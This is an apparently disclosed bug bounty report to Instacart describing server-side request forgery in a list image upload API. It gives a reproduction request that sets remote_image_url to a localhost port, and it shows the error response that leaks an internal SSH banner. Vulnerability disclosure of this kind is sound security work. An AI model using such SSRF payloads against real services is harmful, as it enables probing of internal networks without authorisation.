 # Server side request forgery on image upload for lists

## Report Details
- **Report ID**: 158016
- **URL**: https://hackerone.com/reports/158016
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2016-08-09T23:44:41.943Z
- **Disclosed**: 2016-10-12T21:11:01.088Z

## Reporter
- **Username**: eboda
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: instacart

## Vulnerability Information
Summary
----------

There is a Server-side request forgery when updating the image for a list.

Steps to reproduce
-----------------

1. Create a list and change its image. That will send a POST request to https://beta.instacart.com/api/v2/lists/[LIST_ID] with the following parameters:

    ```
list[remote_image_url]=https://example.com/yourimage.jpg
```

2. Change the  url to http://127.0.0.1:21 and you will get as response:

    ```{json}
{
	"meta":
	{
		"code": 400,
		"error_type": "List Error",
		"error_message": "There was an error while updating this list",
		"errors": ["Image could not download file: wrong status line: \"SSH-2.0-OpenSSH_6.6.1p1 Ubuntu-2ubuntu2.3\""]
	}
}
```
    Which shows that it tried to connect to the SSH port on localhost.  


## Attachments
No attachments
